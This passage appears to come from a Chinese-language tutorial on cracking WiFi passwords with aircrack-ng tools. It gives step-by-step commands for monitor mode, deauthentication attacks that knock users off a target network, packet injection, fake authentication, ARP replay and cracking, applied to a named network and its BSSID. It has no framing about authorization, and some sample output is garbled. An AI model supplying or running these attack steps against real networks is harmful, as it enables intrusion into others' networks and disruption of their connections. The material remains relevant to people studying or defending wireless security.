好了，现在你的电脑有很多网络适配器，为了扫描其中一个，你需要知道它的名称。wlan 接口未显示的问题：这是因为虚拟机无法使用内置无线网卡，你必须使用外置网卡。你应该尝试使用 Live USB 启动 Kali（只需看本教程的第一部分），或购买一个外置网卡。

### 2. 启用监听模式
现在，使用 `airmon-ng` 工具创建一个接口：
```
airmon-ng start wlan0
```
`mon0` 接口将被创建。

### 3. 开始捕获数据包
现在我们使用 `airodump-ng` 在空中捕获数据包。该工具从空中收集数据。你会看到想要破解的 WiFi。
```
airodump-ng mon0
```

### 4. 将捕获的数据包存储到文件中
这可以通过给 `airodump` 命令提供更多参数来实现：
```
airodump-ng mon0 --write name_of_file
```

示例：
```bash
root@kali:~# airmon-ng start wlan1
root@kali:~# airodump-ng mon0 -w anyhere
```

现在从 `airodump-ng` 屏幕复制目标网络的 `bssid`，并使用 `aireplay-ng` 启动 `deauth` 攻击：
```bash
root@kali:~# aireplay-ng --deauth 0 -a BSSID here mon0
```
`--deauth` 告诉 `aireplay` 启动取消认证攻击。`0` 告诉它以 0 秒为间隔运行（非常快，只需运行几秒并按 `ctrl+c`）。`-a` 需要 BSSID，将 `BSSID here` 替换为你的 BSSID。`mon0` 是你创建的接口。

如果在通道切换之间遇到问题，或者遇到信标帧问题，可以通过以下命令固定 `mon0` 通道：
```bash
root@kali:~# airodump-ng mon0 -w anyhere -c 1
```
将 `1` 替换为目标所在的通道。如果 `aireplay` 要求，你可能还需要添加 `--ignorenegative-one`。在我的情况下，`airodump-ng` 显示 `mon0` 通道为 -1，所以这是必须的。

现在当你查看 `airodump-ng` 屏幕时，你会看到右上显示 `WPA captured`。它看起来是：
```
CH 1 ][ Elapsed: 4 s ][ 204-06-13 2:4 ][ WPA handshake: 
BSSID             RXQ Beacons  #Data,/s  CH  MB  CIPHER AUTH ESSID
02:73:8D:37:A7:ED -47     75      201     35  0   54 CCMP  PSK me
BSSID             STATION       PWR  Rate    Lost    Frames  Probe
*               *              0   0e- 1     742      82
```
你可以通过输入以下命令进行确认：
```bash
root@kali:~# aircrack-ng anyhere-01.cap
```
打开 `anyhere-01.cap`。
读取了 212 个数据包。
```
 #  BSSID             ESSID                               Encryption
 1 ***************me                               WPA (1 handshake)   2  **                               Unknown
```


首先，你可以购买一个新的外部无线适配器。其次，你可以与 Windows 并行安装 Kali，或者通过 USB 运行它。虚拟机只有在设备通过 USB 外部连接时才能使用计算机硬件。现在这里还有一个陷阱：几乎所有的内部适配器都不支持注入（injection）。这对于加速无线黑客攻击非常重要。所以，如果你真的想深入无线黑客攻击，是时候买一个或两个外部适配器了（越多越好）。如果这不可行，你可能需要花上几个小时来尝试获取一个能让你的内部适配器支持注入的驱动程序（我不认识有人成功过这一点，但也许可能是可能的）。

### 检查注入支持

`Acrack-ng` 有一篇关于检查注入支持的详细文章。你可以查看他们的网站。我只提供足够发现注入是否正常运行的命令。

```
airmon-ng start wlan0 [or wlan1]
```

（将你的无线适配器设置为监听模式。从现在起，我们将 `wlan0/wlan1` 称为 `mon0`）

```
airserv-ng -d mon0
aireplay-ng -9 127.0.0.1:666
```



这基本上建立了一个“临时服务器”，等待你测试注入能力。第二个命令实际上尝试向服务器注入，并成功了。`127.0.0.1` 是预留给回环的 IP。当你对自己执行某些命令时，始终使用它。`666` 是我们使用的端口。大多数情况下，IP 和冒号后面跟着端口。通用格式类似于 `IP:port`。最后你检查了注入能力，最后一行 `"Injection is working!"` 将确认这一点。

### 检查信号强度

虽然上一章中的基础黑客方法没有真实的强度限制，但你需要物理靠近访问点（AP）才能注入包。同一个 `aircrack-ng` 教程中有相关信息。再次，我将总结一下在这里需要做什么。

首先，我们将使用 `airodump-ng mon0` 查看范围内的网络列表。找到你想攻击的网络： 

`Airodump-ng` 列出了范围内的网络。

现在我们将攻击 digisol 网络。记下你想攻击的网络的 `BSSID`。一个好的做法是将收集到的所有信息存储在任何文本编辑器中。在这个阶段，我们应该记录以下：

- ESSID - `DIGISOL`
- BSSID - `00:17:7C:22:CB:80`
- CH (通道) - `2`
- 连接到网络的真实用户的 MAC 地址：
- 接口 : `wlan1` - 称为 `mon0`

你应该为你将要操作的网络收集相应的信息。然后，每当我在任何命令中使用这些值时，只需更改它们即可。

注意：我们需要至少有一个用户（有线或无线）连接到网络并正在使用它。这是因为本教程依赖于接收至少一个 ARP 请求包，如果没有活跃的客户端，永远不会有 ARP 请求包。

现在，为了检查信号强度是否足够，我们将简单地执行以下代码：

```
airodump-ng [interface] -c [channel]
airodump-ng mon0 -c 2
```

这将使无线卡只读取第 `2` 频道中的数据包，我们的目标网络就在该频道上。

现在测试该网络，输入以下代码：

```
aireplay-ng --test -e DIGISOL -a 00:17:7C:22:CB:80 mon0
```



上一次我们检查无线卡是否有注入包的能力。我们在自己的计算机上测试了它。这次，我们实际上向目标计算机注入了包。如果这有效，那就是非常好的消息，意味着你很可能能够攻击这个网络。最后一行 `30/30 : 100%` 决定了信号强度有多坏。高百分比是一个好信号，`100` 是理想的。

### 捕获包

现在我们已经运行了几次 `airodump-ng`。然而，这次我们将传递 `-w` 命令，这将指示 `airodump-ng` 将输出保存到文件中：

```
airodump-ng -c [channel] --bssid [bssid]-w [file_name] [interface]
airodump-ng -c 2 --bssid 00:17:7C:22:CB:80 -w dump mon0
```

输出将保存在文件 `dump-01.cap` 中。

现在我们可以保持此终端运行，它将继续保存数据包。[在之前的教程中，我们只做了两件事：捕获数据包（即这一步）和破解它（即我们最后要做的步骤）。虽然只遵循两个步骤让我们的工作变得更容易，但也让整个过程变得更加耗时，因为我们只是一个被动的数据包监听器，什么都不做。]

### 加速

#### 伪认证

 现在为了加速，我们将注入网络。这将填充 `airodump-ng` 捕获，数据将帮助我们获取密码。一旦我们有了 10000 个数据包，就可以使用 `aircrack-ng` 开始尝试密码。

为了让 AP 注意到注入的包，你必须是一个连接的客户端或伪装成客户端。我们将后者（如果你看到错误 AP 在通道 `x` 而 `mon0` 在通道 `y`，请查看章节底部）：

```
aireplay-ng -1 0 -e DIGISOL -a 00:17:7C:22:CB:80 mon0
```

#### ARP 请求模式

ARP 包是获取大量 IVs 或数据的最佳途径。没有 IVs 你无法攻击网络。输入以下代码让 `aireplay-ng` 监听 AP 的 ARP 包，一旦发现一个就注入它们。这将非常快地产生数据。这是真正的加速步骤。

```
aireplay-ng -3 -b [BSSID] mon0
```

最终代码看起来像这样：

```
aireplay-ng -3 -b 00:17:7C:22:CB:80 mon0
```

现在你必须等待一段时间直到获取 ARP 请求。一旦获取到一个，终端就会开始“爆炸”。数据包将开始填充。现在这一部分，网络中有一个活跃的用户是绝对必要的。

### 破解网络

破解网络就像在控制台中输入以下内容一样简单

```
aircrack-ng name_of_file-01.cap
```

在我们的案例，命令将是：

```
aircrack-ng dump-01.cap
```

 按回车后，你将获得网络列表，并会提示你选择攻击哪一个。在我的案例中只有一个网络，所以我无法获得那个界面或截图。密码在不到一秒的时间内破解了。

最后你获得了你尝试攻击的网络密码。

